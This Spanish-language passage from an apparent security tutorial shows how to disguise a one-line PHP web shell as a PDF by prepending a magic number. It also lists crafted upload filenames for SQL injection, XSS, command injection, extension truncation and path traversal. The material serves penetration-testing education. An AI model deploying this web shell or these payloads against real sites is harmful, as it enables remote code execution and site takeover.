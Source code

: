   1. Se procede a añadir el número mágico apropiado para un archivo PDF (es decir, `%PDF-2.0`) al principio del archivo:

      ```bash
      :~$ echo "%PDF-2.0$(cat webshell.php)" > webshell.php
      ```

  1. Nuevamente se muestra el contenido del fichero `webshell.php` para verificar el cambio:

      ```bash
      :~$ cat webshell.php
      %PDF-2.0<?php system($_GET["cmd"]); ?>
      ```

  1. Se visualiza el volcado hexadecimal del fichero para comprobar los *bytes* iniciales, asegurándose de que éstos corresponden a `25 50 44 46 2D` tal y como se indica en la [lista de firmas de ficheros][1]:

      ```bash
      :~$ xxd webshell.php 
      00000000: 2550 4446 2d32 2e30 3c3f 7068 7020 7379  %PDF-2.0<?php sy
      00000010: 7374 656d 2824 5f47 4554 5b22 636d 6422  stem($_GET["cmd"
      00000020: 5d29 3b20 3f3e 0a                        ]); ?>.
      ```
  
  1. Finalmente, se determina de nuevo el tipo de archivo mediante el comando `file`, y se observa como ha cambiado a PDF:

      ```bash
      :~$ file webshell.php
      webshell.php: PDF document, version 2.0
      ```

### Usando nombres de archivo manipulados para eludir comprobaciones o explotar vulnerabilidades existentes

* Los límites de los nombres de archivo pueden explotarse utilizando nombres de archivo largos para truncar las extensiones seguras. Por ejemplo, en Linux, donde la longitud máxima de los nombres de archivo es de 255 *bytes*, un nombre como `aaaa.php.png` (siendo `aaaa` una cadena más larga) podría eludir las comprobaciones en determinadas situaciones.
* Los nombres de archivo también pueden utilizarse para explotar vulnerabilidades relacionadas con la forma en que la aplicación procesa y gestiona el nombre de archivo. Por ejemplo, un nombre de archivo como `sleep(20)-- -.jpg` podría desencadenar una inyección SQL, `<svg onload=alert("XSS")>` podría conducir a XSS, y `; sleep 20;` podría dar lugar a una inyección de comandos.

#### Explotación de vulnerabilidades path traversal

* *Path traversal* es el proceso de manipulación de rutas de archivos para acceder a ubicaciones no deseadas fuera del directorio designado.
* Los usuarios maliciosos incluyen secuencias como `../` en los nombres de archivo para atravesar directorios y almacenar archivos en ubicaciones no deseadas. Por ejemplo, un nombre de archivo como `../../../../var/www/html/index.php` ubicaría el archivo en la raíz web, sustituyendo potencialmente el contenido principal real de la aplicación web, al que posteriormente se podría acceder y ejecutar a través de una URL.


[1]: https://en.wikipedia.org/wiki/List_of_file_signatures
